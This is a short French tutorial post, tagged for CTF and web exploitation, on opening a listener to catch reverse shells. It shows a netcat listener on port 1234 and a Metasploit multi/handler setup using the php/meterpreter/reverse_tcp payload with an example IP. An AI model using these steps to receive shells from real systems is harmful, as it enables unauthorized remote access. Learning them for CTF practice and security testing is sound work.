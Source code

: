 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour aller plus loin, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
---------------------------------------------


##### NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
